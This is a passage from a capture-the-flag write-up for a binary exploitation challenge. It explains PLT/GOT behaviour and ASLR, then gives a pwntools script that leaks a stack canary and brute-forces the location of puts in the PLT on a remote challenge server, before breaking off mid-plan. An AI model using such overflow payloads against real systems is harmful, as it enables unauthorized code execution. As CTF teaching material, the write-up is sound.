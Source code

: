 If you recall, we *still* don't have a binary. Now, they're asking us to do ret2system without a libc, either.

However, we did solve pwn300 and pwn400, which had rce and shells popped. So, assuming the same guy developed all of these chals, we scraped the libc and binaries from the pwn300 and pwn400 environment.

When a program is dynamically linked, they make use of the Producure Linkage Table (PLT) and the Global Offset Table (GOT) to resolve calls to libc, without actually having the code of libc in the binary. Since pwn 300/400/500 are all similar programs, we expected there to be similar constructions of the PLT.

The PLT is useful here, because ALSR is on, so we don't know what address our program is starting at. However, the PLT has fixed addresses. So if we're able to call something at the PLT, we can leak where libc is based, and then follow through with ret2system.

The PLT is also predictable, each call to libc is seperated by 16 bytes. So, we know *about* where puts() should be in the PLT, so we did a small brute force search to figure it out:


```py
from pwn import *

libc = ELF('./libc.so.6')

for i in range(16):
    r = remote('44.197.231.105', 3004)

    print(r.recvuntil(b'value: 0x'))
    canary = int(r.recvuntil(b')', drop=True), 16)
    print(hex(canary))
    r.recvuntil(b' at 0x')
    stack = int(r.recvuntil(b':', drop=True), 16)

    # puts = 0x08049150 + 16*i
    puts_reloc = 0x0804827c
    payload = flat({
        20: p32(canary),
        48: p32(stack + 0x40), # ebp
        52: b''.join([
            p32(puts),
            p32(0x804968c - 5),
            p32(puts_reloc),
        ])
    }, filler=b'\x90', length=80)

    r.sendline(payload)
```

After a few of these atttempts, we found that one address that we set to puts printed out an extra new line (sneaky!). We also found that shortly after, an address caused the program to restart, which is caused by the libc entry function: `libc_start_main`.

So the gameplan was this:
